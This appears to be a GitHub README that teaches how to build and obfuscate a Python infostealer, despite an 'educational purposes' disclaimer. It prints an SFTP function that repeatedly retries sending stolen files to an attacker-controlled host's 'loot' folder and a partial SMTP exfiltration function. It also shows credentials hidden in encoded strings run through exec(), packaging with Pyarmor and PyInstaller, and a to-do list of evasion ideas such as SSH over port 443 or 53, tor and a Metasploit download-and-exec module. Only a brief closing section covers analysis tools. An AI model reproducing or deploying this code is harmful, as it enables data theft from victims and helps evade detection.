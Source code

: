 # Python Malware Analysis
A guide on the build process, obfuscation techniques, and analysis of simple python-based infostealer malware.<p>
<b>** Disclaimer ** This tutorial is intended for educational purposes only. It is purely to demonstrate the ease of creation and a few capabilities of infostealer malware. I do not condone the malicious use of this material.</b>


<br>

## Prerequisites
- Windows 10
- Python 3.1X
> pip install -U -R requirements.txt

<br>

## Exfiltration Methods

### SFTP exfiltration using [Paramiko](https://www.paramiko.org/installing.html)
The example script shown only uses SFTP via the paramiko library to exfiltrate stolen data (for now at least). Below is a snippet of its usage:

    def sftp_func(filepath):
        success = False
        while success == False:   # this will ensure continuous ssh calls  until the data is sent
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect({RHOST ip}, {RHOST listening port}, {RHOST ssh username}, {RHOST ssh password}, timeout=3)
                sftp = client.open_sftp()
        
                destination_path = f'/home/{a}/loot/{os.path.basename(filepath)}'
                sftp.put(filepath, destination_path)
                success = True
                
            except paramiko.ssh_exception.NoValidConnectionsError:
                pass
            except OSError:
                pass

<br>

### SMTP

(finish later)

    def smtp_func(filepath):

        inbox_name = 'emailname@domain.com'
        inbox_pword = 'password'

        msg = EmailMessage()
        msg['Subject'] = f"{os.path.basename(filepath)}"
        msg['From'] = inbox_name
        msg['To'] = inbox_name

        # attachment not text
        msg.set_content(attachment)

        try:
            with smtplib.SMTP("smtp.domain.com", 587) as s:
                s.starttls()
                s.login(inbox_name, inbox_pword)
                s.send_message(msg)
        except:
            pass

<br>

### Other Ideas 
#### [PyExfil](https://github.com/ytisf/PyExfil)
#### [Cloakify](https://github.com/TryCatchHCF/Cloakify)

<br>

## Code Obfuscation Techniques
### Encoding variables
In this example script, the arguments passed to the 'client.connect()' function (where client = paramiko.SSHClient()) are not human-readable, but instead obfuscated using layers of encoding. Below is an example of what this looks like:

    # before encoding
    b = "<remote ssh password>"
    a = "<remote ssh username>"
    c = "<server ip>"

    # after encoding
    yoyo = "\u0036\u0032\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0030\u0036\u0031\u0037\u0033\u0037\u0033\u0037\u0037\u0036\u0066\u0037\u0032\u0036\u0034\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0031\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0035\u0037\u0033\u0036\u0035\u0037\u0032\u0036\u0065\u0036\u0031\u0036\u0064\u0036\u0035\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0033\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0033\u0036\u0035\u0037\u0032\u0037\u0036\u0036\u0035\u0037\u0032\u0032\u0030\u0036\u0039\u0037\u0030\u0033\u0065\u0032\u0032"

    ...
    # usage in SFTP call
    exec(bytes.fromhex(yoyo), globals())   # converts the hexidecimal string to meaningful variables, python understands escape unicode chars (e.g. \u0036)
    client.connect(c, 22, a, b, timeout=4)
    ...

Pasting the original text into [Cyberchef](https://gchq.github.io/CyberChef/) and applying the following operations yields the legible string 'yoyo': 
- To Hex, No delimiter
- Escape Unicode Chars, Padding: 4, Encode all chars

However, it should be noted that this is a very crude technique as encoded characters are immediately recognizable to skilled forensic analysts and can be easily undone with several decoding tools. That said, when used in conjunction with other obfuscation techniques, encoding can slightly delay reverse engineering efforts.

<br>

### Using [Pyarmor](https://pypi.org/project/pyarmor/)
To apply basic code obfuscation:
> pyarmor gen example.py

<br>

## Using [Pyinstaller](https://pyinstaller.org/en/stable/usage.html)
### Initial building:
> cd dist
> pyinstaller example.py --onefile

<br>

### Editing the .spec file
...


<br>

## Malware Analysis

**[PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)** - A Python script to extract the contents of a PyInstaller generated Windows executable file. The contents of the pyz file (usually pyc files) present inside the executable are also extracted and automatically fixed so that a Python bytecode decompiler will recognize it.

**[uncompyle6](https://github.com/rocky/python-uncompyle6/)** - A cross-version Python bytecode decompiler. Translates Python bytecode back into equivalent Python source code.

<br>

## To-do List
- change ssh port to 443 or 53
- Metasploit download+exec module
- .py to .pdf
- smtp exfiltration
- ssh key integration
- encrypted ssh password from http server
- ssh over tor socket
